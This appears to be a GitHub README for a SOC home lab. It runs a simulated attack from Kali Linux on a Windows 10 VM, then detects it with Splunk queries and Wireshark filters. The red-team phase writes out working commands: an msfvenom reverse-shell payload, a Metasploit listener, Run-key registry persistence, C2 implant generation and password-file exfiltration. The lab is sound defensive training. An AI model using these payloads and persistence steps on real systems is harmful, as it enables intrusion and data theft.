




# SOC Home Lab: Attack Simulation and Threat Detection Playbook

## 📌 Project Overview
This project demonstrates the end-to-end deployment of a localized Security Operations Center (SOC) home lab designed to simulate real-world cyber attacks and construct high-fidelity detection mechanisms. By executing a full Cyber Kill Chain lifecycle, this lab bridges the gap between offensive operations (Red Team) and defensive analysis (Blue Team).

The primary objective is to simulate an attack from a Linux adversary machine, establish persistent command-and-control capabilities on a Windows 10 endpoint, and leverage industry-standard defensive tools (**Splunk Enterprise** and **Wireshark**) to detect and analyze the footprint left behind.

---

## 🏗️ Lab Architecture & Network Topology
The lab environment is contained within a private virtual network, consisting of the following assets:

* **Attacker Machine:** Kali Linux (`192.168.1.13`)
* **Target Victim:** Windows 10 Endpoint (`192.168.1.14`)
* **SIEM & Logging Server:** Ubuntu Server hosting Splunk Enterprise (`192.168.1.50`)
* **Log Forwarding:** Splunk Universal Forwarder paired with Sysmon for comprehensive endpoint visibility.

*Alternative Text: Screenshot or diagram of the virtualized lab environment network mapping.*

---

## 🔴 Phase 1: Cyber Kill Chain Simulation
Using native testing mechanisms and specialized frameworks, the following offensive sequence was executed from the Kali Linux adversary machine:

### 1. Reconnaissance (Active Scanning)
Identified open ports, active services, and operating system versions on the victim machine.
> `nmap -sS -T4 -Pn --top-ports 4000 -sV 192.168.1.14`

### 2. Weaponization (Payload Generation)
Crafted a reverse TCP executable payload tailored for 64-bit Windows environments.
> `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f exe > weapon.exe`

### 3. Delivery & Exploitation
Hosted the payload using a Python-based web server and initiated a Metasploit multi-handler listener to intercept the incoming execution callback.
> `# Attacker Delivery Server`
> `python3 -m http.server 80`

> `# Metasploit Multi-Handler Setup`
> `msfconsole`
> `> use exploit/multi/handler`
> `> set LHOST 192.168.1.13`
> `> set LPORT 4444`
> `> set payload windows/x64/shell/reverse_tcp`
> `> exploit`

*Alternative Text: Execution of nmap, payload generation, and listener setup on Kali Linux.*

### 4. Persistence (Registry Modification)
Established a boot-persistent mechanism by forcing the payload to run automatically upon user authentication via the Windows Registry.
> `reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "weapon.exe" /t REG_SZ /d "C:\Users\zeid4\OneDrive\Desktop\weapon.exe" /f`

### 5. Command & Control (C2) & Exfiltration
Generated an advanced C2 implant (`WISE_MINI.exe`) utilizing mutual TLS (`mTLS`) for secure tracking evasion, followed by the exfiltration of sensitive files over the established session.
> `generate --mtls 192.168.1.13 --os windows --save /home/kali/Desktop`

> `# Exfiltrating target files`
> `download passwords.txt`

---

## 🔵 Phase 2: Blue Team Detection & Threat Hunting

### 🔍 1. Log Analysis via Splunk (SPL)

Using ingestion pipelines fed by Windows Event Logs and Sysmon records, specific Search Processing Language (SPL) queries were designed to uncover the attack signatures.

#### A. Port Scan & Recon Detection
Aggregates network connection events (`EventCode=3`) originating from the suspicious host to detect volume-based scanning patterns.
> `index=* src_ip="192.168.1.13" EventCode=3`
> `| stats count by dest_port` 
> `| where count > 10`

#### B. Delivery & Execution Connection Tracking
Isolates active connections running over common target reverse ports or suspicious process environments.
> `index=* dest_port=4444`
> `| table _time, src_ip, dest_ip, dest_port`

#### C. Anomalous Process Lineage (Shell Spawning)
Detects command shells (`cmd.exe`, `powershell.exe`) spawned by unusual parent processes rather than standard system processes like `explorer.exe`.
> `index=* (Image="*cmd.exe" OR Image="*powershell.exe")`
> `| where NOT (ParentImage LIKE "*explorer.exe" OR ParentImage LIKE "*services.exe")` 
> `| table _time, user, Image, ParentImage`

#### D. Registry Persistence Monitoring
Identifies unauthorized writes directly into the system or user Startup/Run keys (`EventCode=13`).
> `index=* EventCode=13 (TargetObject="*\\CurrentVersion\\Run*" OR TargetObject="*\\CurrentVersion\\RunOnce*")`
> `| table _time, host, User, Image, TargetObject, Details`

#### E. C2 Beaconing & Exfiltration Fingerprinting (`WISE_MINI.exe`)
Tracks persistent internal infrastructure interactions and execution parameters managed via the specific binary components.
> `index=* "WISE_MINI.exe"`
> `| table _time, EventCode, User, Image, ParentImage, dest_ip, dest_port`
> `| sort _time`

> `index=* "wise_mini" EventCode=1`
> `| table _time, ParentImage, Image, CommandLine`

*Alternative Text: Splunk dashboard panels displaying query hits for persistence and abnormal process creation.*

---

### 🦈 2. Network Forensics via Wireshark

By capturing live raw traffic during the simulation, network behavior anomalies were separated from benign background traffic.

#### A. SYN Flood / Port Scan Identification
Isolates packets where the SYN flag is set but no ACK response follows, exposing active scanning patterns originating from the adversary.
> `tcp.flags.syn == 1 && tcp.flags.ack == 0 and ip.src == 192.168.1.13`

*Target-focused view:*
> `tcp.flags.syn == 1 && tcp.flags.ack == 0 and ip.dst == 192.168.1.14`

#### B. HTTP Payload Delivery Tracing
Extracts raw HTTP web transactions happening between the target computer and the attack system, indicating explicit utility downloads or artifact transfers.
> `http && (ip.src == 192.168.1.14 && ip.dst == 192.168.1.13)`

#### C. Command and Control Handshake Extraction
Identifies the network traffic on target C2 ports or isolates cryptographic negotiation handshake exchanges (`Client Hello` or `Certificate Exchange`) mapped across communication tunnels.
> `ip.addr == 192.168.1.13 && tcp.port == 8888`

*Cryptographic Profiling Layer:*
> `tls.handshake.type == 1 || tls.handshake.type == 11`

*Alternative Text: Wireshark packet capture showing TCP flag distributions and TLS handshake parameters.*

---

## 🎯 Key Takeaways & Security Insights
1. **The Power of Sysmon:** Standard Windows Event Logs can miss registry or payload creations, but Sysmon fills those gaps perfectly with specific Event IDs like `EventCode=1` (Process Creation) and `EventCode=13` (Registry Modification).
2. **Behavior Over Signatures:** Relying on basic tool names (like `weapon.exe`) is not enough because attackers can rename files easily. Instead, using SPL to focus on *behaviors*—such as searching for anomalous parent-child process tracking—proves much more effective.
3. **Defense-in-Depth:** Combining network metrics (Wireshark) with host-based indicators (Splunk) ensures full operational visibility across the network.
